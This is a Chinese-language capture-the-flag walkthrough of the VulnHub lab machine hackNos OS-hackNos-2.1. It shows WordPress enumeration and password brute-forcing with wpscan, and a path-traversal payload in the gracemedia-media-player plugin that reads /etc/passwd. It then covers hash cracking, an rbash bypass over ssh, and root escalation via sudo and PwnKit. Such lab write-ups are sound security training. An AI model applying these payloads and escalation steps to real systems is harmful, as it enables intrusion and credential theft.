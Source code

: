# HACKNOS: OS-HACKNOS-2.1

2025.02.17 https://www.vulnhub.com/entry/hacknos-os-hacknos-21,403/

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

gobuster 扫描出一个 http://192.168.5.40/tsweb/ 打开后是一个 wordpress，在页面底部发现一个邮箱，可能存在的系统用户名为 rahulgehlaut ，尝试用 wpscan 进行枚举：

```
wpscan --url http://192.168.5.40/tsweb/ -e u,ap,at --plugins-detection mixed
```

发现了一个用户名 user，尝试登陆页面爆破：

```
wpscan --url http://192.168.5.40/tsweb/ -U user -P ~/tools/dict/passwd_1050.txt -t 32
```

无结果。

在看看 wp 的插件是否有可以利用的漏洞，发现插件 akismet、classic-editor、gracemedia-media-player 其中 gracemedia-media-player 有文件包含漏洞：

```
curl http://192.168.5.40/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
rohit:x:1000:1000:hackNos:/home/rohit:/bin/bash
flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/:1001:1003::/home/flag:/bin/rbash
```

尝试对 flag 用户的哈希进行破解，得到密码: topsecret

尝试 ssh 登陆并且绕过 rbash:

```
ssh flag@192.168.5.40 -t "bash --noprofile"
```

进入/var/www/html 文件夹找到 wp 的数据库配置文件：

```
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'hackNos-2.com' );
define( 'DB_HOST', 'localhost' );
```

尝试用数据库的密码切换到 rohit 用户，切换失败。

通过枚举，发现另外一个 hash 备份文件：

```
flag@hacknos:/$ cat /var/backups/passbkp/md5-hash
$1$rohit$01Dl0NQKtgfeL08fGrggi0
```

尝试解密哈希得到密码为: !%hack41 使用此密码切换到 rohit。

先获得了 user flag:

```
rohit@hacknos:~$ cat user.txt
############################################
 __    __   _______   ______    ______
/  |  /  | /       | /      \  /      \
$$ |  $$ |/$$$$$$$/ /$$$$$$  |/$$$$$$  |
$$ |  $$ |$$      \ $$    $$ |$$ |
$$ \__$$ | $$$$$$  |$$$$$$$$/ $$ |
$$    $$/ /     $$/ $$       |$$ |
 $$$$$$/  $$$$$$$/   $$$$$$$/ $$/



############################################

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

sudo -l 发现 ALL，直接提权到 root:

```
rohit@hacknos:~$ sudo su
root@hacknos:/home/rohit# cd /root
root@hacknos:~# ls
root.txt
root@hacknos:~# cat root.txt
 _______                         __              __  __     #
/       \                       /  |            /  |/  |    #
$$$$$$$  |  ______    ______   _$$ |_          _$$ |$$ |_   #
$$ |__$$ | /      \  /      \ / $$   |        / $$  $$   |  #
$$    $$< /$$$$$$  |/$$$$$$  |$$$$$$/         $$$$$$$$$$/   #
$$$$$$$  |$$ |  $$ |$$ |  $$ |  $$ | __       / $$  $$   |  #
$$ |  $$ |$$ \__$$ |$$ \__$$ |  $$ |/  |      $$$$$$$$$$/   #
$$ |  $$ |$$    $$/ $$    $$/   $$  $$/         $$ |$$ |    #
$$/   $$/  $$$$$$/   $$$$$$/     $$$$/          $$/ $$/     #
#############################################################

#############################################################
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Blog : www.hackNos.com

Author : Rahul Gehlaut

linkedin : https://www.linkedin.com/in/rahulgehlaut/
#############################################################
```

第二种提权路径：发现 CVE-2021-4034 PwnKit ，直接上传 pwnkit 同样也可以提权到 root：

```
flag@hacknos:/tmp$ ./pwnkit
root@hacknos:/tmp# cd /root
root@hacknos:~# ls -al
```
